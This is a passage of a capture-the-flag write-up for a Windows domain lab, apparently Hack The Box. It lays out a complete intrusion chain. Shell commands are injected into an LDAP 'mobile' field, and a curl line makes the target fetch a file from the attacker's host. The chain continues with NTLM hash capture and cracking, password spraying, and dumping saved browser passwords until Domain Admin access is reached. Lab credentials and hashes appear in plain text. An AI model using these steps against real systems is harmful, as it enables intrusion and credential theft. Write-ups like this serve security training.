$ cat /tmp/nxc_hosted/nxc_spider_plus/hope.windcorp.htb/WC-Share/temp/debug-users.txt
IvanJennings43235345
MiriamMills93827637
BenjaminHernandez23232323
RayDuncan9342211
```

Lets try to get our properties from ldap and see if any of them match with the presented on txt file.

```bash
root@webserver:~# ldapsearch -H ldap://windcorp.htb -b "CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb"
SASL/GSS-SPNEGO authentication started
SASL username: ray.duncan@WINDCORP.HTB
SASL SSF: 256
SASL data security layer installed.
# extended LDIF
#
# LDAPv3
# base <CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# Ray Duncan, Development, windcorp.htb
dn: CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Ray Duncan
sn: Duncan
givenName: Ray
distinguishedName: CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb
instanceType: 4
whenCreated: 20220430082903.0Z
whenChanged: 20240826082257.0Z
uSNCreated: 127163
memberOf: CN=Development,OU=Groups,DC=windcorp,DC=htb
uSNChanged: 356768
name: Ray Duncan
objectGUID:: sAJ9W9O5u0uUMBaH94W2AQ==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 133034809633163471
lastLogoff: 0
lastLogon: 133691649245389274
pwdLastSet: 133034792223294850
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAE97tbUcM4vF/kEqjnQwAAA==
accountExpires: 9223372036854775807
logonCount: 107
sAMAccountName: Ray.Duncan
sAMAccountType: 805306368
userPrincipalName: Ray.Duncan@windcorp.com
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=windcorp,DC=htb
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 133691341770869754
msDS-SupportedEncryptionTypes: 0
mobile: 9342211

# search result
search: 3
result: 0 Success

# numResponses: 2
# numEntries: 1
```

```bash
root@webserver:~# ldapsearch -Q -H ldap://windcorp.htb -b "CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb" 
mobile | grep mobile:
mobile: 9342211
```

The `mobile` value on our user is the same as on the file.

We can change our `mobile` property using [LDIF Files](https://www.digitalocean.com/community/tutorials/how-to-use-ldif-files-to-make-changes-to-an-openldap-system).

```bash
dn: CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb
changetype: modify
replace: mobile
mobile: 1; $(ping 10.10.14.8)
```

```bash
root@webserver:~# cat rduncun.ldif 
dn: CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb
changetype: modify
replace: mobile
mobile: 1; $(ping 10.10.14.8)
```

```bash
root@webserver:~# ldapmodify -Y GSSAPI -H ldap://windcorp.htb -D "CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb" -f rduncun.ldif 
SASL/GSSAPI authentication started
SASL username: ray.duncan@WINDCORP.HTB
SASL SSF: 256
SASL data security layer installed.
modifying entry "CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb"
```

```bash
root@webserver:~# ldapsearch -Q -H ldap://windcorp.htb -b "CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb" mobile | grep mobile:
mobile: 1; $(ping 10.10.14.8)
```

After a couple of minutes we see the host trying to reach our via icmp.

```bash
$ sudo tcpdump -n -i tun0 icmp                  
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
03:29:04.687234 IP 10.10.11.179 > 10.10.14.8: ICMP echo request, id 1, seq 1, length 40
03:29:04.687295 IP 10.10.14.8 > 10.10.11.179: ICMP echo reply, id 1, seq 1, length 40
03:29:05.701016 IP 10.10.11.179 > 10.10.14.8: ICMP echo request, id 1, seq 2, length 40
03:29:05.701046 IP 10.10.14.8 > 10.10.11.179: ICMP echo reply, id 1, seq 2, length 40
03:29:06.710215 IP 10.10.11.179 > 10.10.14.8: ICMP echo request, id 1, seq 3, length 40
03:29:06.710258 IP 10.10.14.8 > 10.10.11.179: ICMP echo reply, id 1, seq 3, length 40
03:29:07.719517 IP 10.10.11.179 > 10.10.14.8: ICMP echo request, id 1, seq 4, length 40
03:29:07.719554 IP 10.10.14.8 > 10.10.11.179: ICMP echo reply, id 1, seq 4, length 40
```

It means we have remote code execution here.

If we keep it there, we are going to keep receiving the icmp pings.

```bash
$ sudo tcpdump -n -i tun0 icmp                  
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
03:29:04.687234 IP 10.10.11.179 > 10.10.14.8: ICMP echo request, id 1, seq 1, length 40
03:29:04.687295 IP 10.10.14.8 > 10.10.11.179: ICMP echo reply, id 1, seq 1, length 40
03:29:05.701016 IP 10.10.11.179 > 10.10.14.8: ICMP echo request, id 1, seq 2, length 40
03:29:05.701046 IP 10.10.14.8 > 10.10.11.179: ICMP echo reply, id 1, seq 2, length 40
03:29:06.710215 IP 10.10.11.179 > 10.10.14.8: ICMP echo request, id 1, seq 3, length 40
03:29:06.710258 IP 10.10.14.8 > 10.10.11.179: ICMP echo reply, id 1, seq 3, length 40
03:29:07.719517 IP 10.10.11.179 > 10.10.14.8: ICMP echo request, id 1, seq 4, length 40
03:29:07.719554 IP 10.10.14.8 > 10.10.11.179: ICMP echo reply, id 1, seq 4, length 40
03:31:03.095822 IP 10.10.11.179 > 10.10.14.8: ICMP echo request, id 1, seq 5, length 40
03:31:03.095889 IP 10.10.14.8 > 10.10.11.179: ICMP echo reply, id 1, seq 5, length 40
03:31:04.112077 IP 10.10.11.179 > 10.10.14.8: ICMP echo request, id 1, seq 6, length 40
03:31:04.112122 IP 10.10.14.8 > 10.10.11.179: ICMP echo reply, id 1, seq 6, length 40
03:31:05.128385 IP 10.10.11.179 > 10.10.14.8: ICMP echo request, id 1, seq 7, length 40
03:31:05.128436 IP 10.10.14.8 > 10.10.11.179: ICMP echo reply, id 1, seq 7, length 40
03:31:06.136627 IP 10.10.11.179 > 10.10.14.8: ICMP echo request, id 1, seq 8, length 40
03:31:06.136668 IP 10.10.14.8 > 10.10.11.179: ICMP echo reply, id 1, seq 8, length 40
```

Lets try to get a NTLM hash using `Get-Content` from a network share as a payload.

```bash
root@webserver:~# cat rduncun.ldif 
dn: CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb
changetype: modify
replace: mobile
mobile: 1; $(gci \\webserver.windcorp.htb\share)
```

```bash
root@webserver:~# ldapmodify -Y GSSAPI -H ldap://windcorp.htb -D "CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb" -f rduncun.ldif 
SASL/GSSAPI authentication started
SASL username: ray.duncan@WINDCORP.HTB
SASL SSF: 256
SASL data security layer installed.
modifying entry "CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb"
```

```bash
root@webserver:~# ldapsearch -Q -H ldap://windcorp.htb -b "CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb" mobile | grep mobile:
mobile: 1; $(gci \\webserver.windcorp.htb\share)
```

Lets use `chisel` here again to redirect the traffic coming on `port 445` to the `webserver` to our Kali on `port 445`.

```bash
root@webserver:~# ./chisel client 10.10.14.8:8000 192.168.0.100:445:10.10.14.8:445
2024/08/26 20:18:58 client: Connecting to ws://10.10.14.8:8000
2024/08/26 20:18:58 client: tun: proxy#192.168.0.100:445=>10.10.14.8:445: Listening
2024/08/26 20:18:59 client: Connected (Latency 89.3492ms)
```

We see the `webserver` is now listening into the port 445.

```bash
root@webserver:~# ss -lntp | grep :445
LISTEN 0      4096   192.168.0.100:445       0.0.0.0:*    users:(("chisel",pid=1830,fd=3))
```

And we start a SMB server on Kali.

```bash
$ impacket-smbserver share $(pwd) -smb2support
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.14.8,34326)
[*] Closing down connection (10.10.14.8,34326)
[*] Remaining connections []
[*] Incoming connection (10.10.14.8,42610)
[-] Unsupported MechType 'MS KRB5 - Microsoft Kerberos 5'
[*] AUTHENTICATE_MESSAGE (WINDCORP\scriptrunner,HOPE)
[*] User HOPE\scriptrunner authenticated successfully
[*] scriptrunner::WINDCORP:aaaaaaaaaaaaaaaa:0699004175651f6bdf2ed0f1fee373aa:010100000000000080c59f50aaf7da0164d60e3f2aeadcfd00000000010010004d004900570048007100510048006200030010004d0049005700480071005100480062000200100046004d006b00760072006c0075007a000400100046004d006b00760072006c0075007a000700080080c59f50aaf7da01060004000200000008003000300000000000000000000000002100006d26f6f0c166f0dc6af1c9e49aafa69cf7dafdadef64709afd741d94411225010a001000000000000000000000000000000000000900360063006900660073002f007700650062007300650072007600650072002e00770069006e00640063006f00720070002e006800740062000000000000000000
[*] Closing down connection (10.10.14.8,42610)
[*] Remaining connections []
```

```bash
$ cat scriptrunner.hash                                                              
scriptrunner::WINDCORP:aaaaaaaaaaaaaaaa:0699004175651f6bdf2ed0f1fee373aa:010100000000000080c59f50aaf7da0164d60e3f2aeadcfd00000000010010004d004900570048007100510048006200030010004d0049005700480071005100480062000200100046004d006b00760072006c0075007a000400100046004d006b00760072006c0075007a000700080080c59f50aaf7da01060004000200000008003000300000000000000000000000002100006d26f6f0c166f0dc6af1c9e49aafa69cf7dafdadef64709afd741d94411225010a001000000000000000000000000000000000000900360063006900660073002f007700650062007300650072007600650072002e00770069006e00640063006f00720070002e006800740062000000000000000000
```

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt scriptrunner.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@p%i&J#iNNo1T2  (scriptrunner)     
1g 0:00:00:07 DONE (2024-08-26 04:29) 0.1371g/s 1967Kp/s 1967Kc/s 1967KC/s !SkicA!..*7¡Vamos!
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

Now we have 2 passwords. We can try to see if these work for other accounts while we enumerate more.

| Username | Password | Target |
| -- | -- | -- |
| ray.duncan | pantera | Domain |
| scriptrunner | !@p%i&J#iNNo1T2 | Domain |

```bash
root@webserver:~# cat pwds.txt 
pantera
!@p%i&J#iNNo1T2
```

Lets get a list of users.

We could use `netexec` with the following command

```bash
$ proxychains netexec smb hope.windcorp.htb -k -u 'ray.duncan' -p 'pantera' --users
```

Or try to get it direct from ldap with this other one.

```bash
root@webserver:~# ldapsearch -Q -H ldap://windcorp.htb -b "DC=windcorp,DC=htb" sAMAccountName | grep sAMAccountName: | grep -v '\$$' | sort -u | awk '{print $2}' > users.txt
```

Now lets use [kerbrute](https://github.com/ropnop/kerbrute) to help us.

```bash
$ scp -i ~/.ssh/kali-rsa /opt/kerbrute_linux_amd64 root@$TARGET:~/ 
Enter passphrase for key '/home/kali/.ssh/kali-rsa': 
kerbrute_linux_amd64                                           100% 8092KB 754.6KB/s   00:10
```

```bash
root@webserver:~# ./kerbrute_linux_amd64 passwordspray -d windcorp.htb ./users.txt 'pantera'

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/26/24 - Ronnie Flathers @ropnop

2024/08/26 20:53:38 >  Using KDC(s):
2024/08/26 20:53:38 >   hope.windcorp.htb:88

2024/08/26 20:53:40 >  [+] VALID LOGIN:  Ray.Duncan@windcorp.htb:pantera
2024/08/26 20:53:40 >  Done! Tested 317 logins (1 successes) in 2.918 seconds
```

```bash
root@webserver:~# ./kerbrute_linux_amd64 passwordspray -d windcorp.htb ./users.txt '!@p%i&J#iNNo1T2'

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/26/24 - Ronnie Flathers @ropnop

2024/08/26 20:54:27 >  Using KDC(s):
2024/08/26 20:54:27 >   hope.windcorp.htb:88

2024/08/26 20:54:28 >  [+] VALID LOGIN:  Bob.Wood@windcorp.htb:!@p%i&J#iNNo1T2
2024/08/26 20:54:30 >  [+] VALID LOGIN:  scriptrunner@windcorp.htb:!@p%i&J#iNNo1T2
2024/08/26 20:54:30 >  Done! Tested 317 logins (2 successes) in 2.590 seconds
```

| Username | Password | Target |
| -- | -- | -- |
| ray.duncan | pantera | Domain |
| scriptrunner | !@p%i&J#iNNo1T2 | Domain |
| bob.wood | !@p%i&J#iNNo1T2 | Domain |

There are 2 `bob.wood` on the domain. One that seems to be an admin.

```bash
root@webserver:~# cat users.txt | grep -i bob.wood
Bob.Wood
bob.woodadm
```

To get auth on my server, I need to set up Kerberos to get a ticket through the proxy. I’ll edit my `/etc/krb5.conf` file to be:

```bash
$ cat /etc/krb5.conf                                                                 
[libdefaults]
        default_realm = WINDCORP.HTB

# The following krb5.conf variables are only for MIT Kerberos.
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        rdns = false


# The following libdefaults parameters are only for Heimdal Kerberos.
        fcc-mit-ticketflags = true

[realms]
        WINDCORP.HTB = {
                kdc = hope.windcorp.htb
                admin_server = hope.windcorp.com
                default_domain = windcorp.htb
        }

[domain_realm]
        .windcorp.htb = WINDCORP.HTB
        windcorp.com = WINDCORP.HTB

[appdefaults]
        forwardable = true
                pam = {
                        WINDCORP.HTB = {
                                ignore_k5login = false
                                }
                }
```

```bash
$ proxychains kinit bob.wood          
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Password for bob.wood@WINDCORP.HTB: !@p%i&J#iNNo1T2
```

```bash
$ klist                     
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: bob.wood@WINDCORP.HTB

Valid starting       Expires              Service principal
08/26/2024 14:08:34  08/26/2024 18:08:34  krbtgt/WINDCORP.HTB@WINDCORP.HTB
        renew until 08/26/2024 18:08:34
```

```bash
$ proxychains evil-winrm -i hope.windcorp.htb -u 'bob.wood' -r windcorp.htb
...                            
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Bob.Wood\Documents> whoami
windcorp\bob.wood
```

I struggle a lot on this enumeration. The Evil-WinRm keeps breaking and a lot of commands fails.

```bash
*Evil-WinRM* PS C:\Temp> 
malloc(): unaligned fastbin chunk detected
zsh: IOT instruction  proxychains evil-winrm -i hope.windcorp.htb -u 'bob.wood' -r windcorp.htb
```

I suspect AppLock, AV and other things are blocking us here. I noticd that we are in a constrained session.

```bash
*Evil-WinRM* PS C:\Users\Bob.Wood\Documents> $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
```

There is a blog about bypassing this and it is worth it have it as an options.

- [Powershell CLM Bypass Using Runspaces](https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/)
- [GitHub CLM Bypass](https://github.com/MinatoTW/CLMBypassBlogpost/tree/master/Bypass)

I decided to go to another route and try to get details from possible browsers on the server. [HackBrowerData](https://github.com/moonD4rk/HackBrowserData) helped me here.

After downloading and extracting the latest release, I renamed its executable to `h` (due to `mobile` field size) and downloaded it to `C:\Windows\Debug\wia\` using the *remote code execution* we got on the `mobile` ldap field. I haven't tested, it it seems to be less restricted.

```bash
oot@webserver:~# cat rduncun.ldif 
dn: CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb
changetype: modify
replace: mobile
mobile: 1;curl http://10.10.14.8:9090/h -o C:\Windows\Debug\wia\h
```

```bash
root@webserver:~# ldapmodify -Y GSSAPI -H ldap://windcorp.htb -D "CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb" -f rduncun.ldif
SASL/GSSAPI authentication started
SASL username: ray.duncan@WINDCORP.HTB
SASL SSF: 256
SASL data security layer installed.
modifying entry "CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb"
```

```bash
root@webserver:~# ldapsearch -Q -H ldap://windcorp.htb -b "CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb" mobile | grep mobile:
mobile: 1;curl http://10.10.14.8:9090/h -o C:\Windows\Debug\wia\h
```

```bash
$ python3 -m uploadserver 9090
File upload available at /upload
Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
10.10.11.179 - - [26/Aug/2024 22:57:09] "GET /h HTTP/1.1" 200 -
```

```bash
*Evil-WinRM* PS C:\Windows\Debug\wia> dir 
    Directory: C:\Windows\Debug\wia

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         8/27/2024   7:57 AM        9798144 h
-a----          5/1/2022  11:45 PM           3291 wiatrace.log
```

As soon as the file is downloaded, I remove the payload from the `mobile` ldap field to avoid it keep trying to download the file.

Then I renamed the `h` to `h.exe` and executed it direct on the `Evil-WinRM` shell.

```bash
*Evil-WinRM* PS C:\Windows\Debug\wia> mv h h.exe

*Evil-WinRM* PS C:\Windows\Debug\wia> dir
    Directory: C:\Windows\Debug\wia
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         8/27/2024   7:57 AM        9798144 h.exe
-a----          5/1/2022  11:45 PM           3291 wiatrace.log
```

The shell crashes again, but when we access it back we see a new directory called `results` on the host.

```bash
*Evil-WinRM* PS C:\Windows\Debug\wia> ./h.exe
h.exe : level=WARN source=browser.go:47 msg="find browser failed, profile folder does not exist" browser=CocCoc
    + CategoryInfo          : NotSpecified: (level=WARN sour... browser=CocCoc:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
level=WARN source=browser.go:47 msg="find browser failed, profile folder does not exist" browser=QQlevel=WARN source=browser.go:47 msg="find browser failed, profile folder does not exist" browser=Sogoumalloc_consolidate(): unaligned fastbin chunk detected
zsh: IOT instruction  proxychains evil-winrm -i hope.windcorp.htb -u 'bob.wood' -r windcorp.htb
```

```bash
*Evil-WinRM* PS C:\Windows\Debug\wia> dir
    Directory: C:\Windows\Debug\wia

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         8/27/2024   8:17 AM                results
-a----         8/27/2024   7:57 AM        9798144 h.exe
-a----          5/1/2022  11:45 PM           3291 wiatrace.log
```

The Edge password file shows us an interesting password for `bob.woodADM`.

```bash
*Evil-WinRM* PS C:\Windows\Debug\wia> type results\microsoft_edge_default_password.csv
UserName,Password,LoginURL,CreateDate
bob.woodADM@windcorp.com,smeT-Worg-wer-m024,http://webmail.windcorp.com/login.html,2022-05-04T18:46:59.133335+02:00
bob.wood@windcorp.htb,SomeSecurePasswordIGuess!09,http://google.com/login.html,2022-05-04T18:14:00.217981+02:00
bob.wood@windcorp.htb,SemTro¤32756Gff,http://somewhere.com/login.html,2022-05-04T18:12:42.849216+02:00
```

| Username | Password | Target |
| -- | -- | -- |
| ray.duncan | pantera | Domain |
| scriptrunner | !@p%i&J#iNNo1T2 | Domain |
| bob.wood | !@p%i&J#iNNo1T2 | Domain |
| bob.woodADM | smeT-Worg-wer-m024 | Domain |

```bash
$ proxychains kinit bob.woodADM
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Password for bob.woodADM@WINDCORP.HTB: smeT-Worg-wer-m024
```

```bash
$ proxychains evil-winrm -i hope.windcorp.htb -u 'bob.woodADM' -r windcorp.htb
...             
*Evil-WinRM* PS C:\Users\bob.woodadm\Documents> whoami
windcorp\bob.woodadm
```

```bash
*Evil-WinRM* PS C:\Users\bob.woodadm\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                      Type             SID                                           Attributes
=============================================== ================ ============================================= ===============================================================
Everyone                                        Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                   Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access      Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                          Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner
NT AUTHORITY\NETWORK                            Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                  Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
WINDCORP\Protected Users                        Group            S-1-5-21-1844305427-4058123335-2739572863-525 Mandatory group, Enabled by default, Enabled group
WINDCORP\Domain Admins                          Group            S-1-5-21-1844305427-4058123335-2739572863-512 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity      Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
WINDCORP\Denied RODC Password Replication Group Alias            S-1-5-21-1844305427-4058123335-2739572863-572 Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\High Mandatory Level            Label            S-1-16-12288
```

```bash
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
ce5c95...
```
